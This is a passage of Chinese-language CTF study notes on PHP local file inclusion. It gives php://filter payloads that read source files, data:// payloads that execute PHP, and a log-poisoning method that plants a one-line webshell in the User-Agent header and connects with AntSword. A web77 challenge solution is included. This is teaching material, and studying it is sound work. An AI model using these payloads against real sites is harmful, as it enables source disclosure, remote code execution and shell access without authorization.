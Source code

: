 | 参数     | 功能     |
| -------- | -------- |
| read     | 读取     |
| write    | 写入     |
| resource | 数据来源 |

```
读取文件源码可以直接用resource读取(常用)
php://filter/convert.base64-encode/resource=flag.php	       base64编码
php://filter/convert.quoted-printable-encode/resource=flag.php quoted-printable编码
php://filter/string.rot13/resource=flag.php                     rot13变换`
```

## data:// 协议

- 条件
  - `allow_url_fopen`:on
  
  - `allow_url_include` :on

 ```
 data://text/plain,<?php phpinfo();?>
 data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
 ```

## 日志文件include

- 原理:对网站进行访问时,日志文件会记录相关信息(请求头中的信息)
- 前提:知道日志文件所在,并能进行包含
- 步骤:
  - 先访问网站在请求头中写入一句话(一般写在UA中)
  - 然后通过post去尝试执行
  - 执行成功后通过蚁剑连接得到shell

内容参考博客:

https://blog.csdn.net/weixin_45794666/article/details/111713495


# web77

![image-20220226143629846.png](https://z4a.net/images/2022/06/14/image-20220226143629846.png)

考察php伪协议，直接`?file=php://filter/convert.base64-encode/resource=flag.php`，然后得到base64加密内容![image-20220226143837369.png](https://z4a.net/images/2022/06/14/image-20220226143837369.png)

然后base64解密得到flag![image-20220226143858354.png](https://z4a.net/images/2022/06/14/image-20220226143858354.png)

# web79
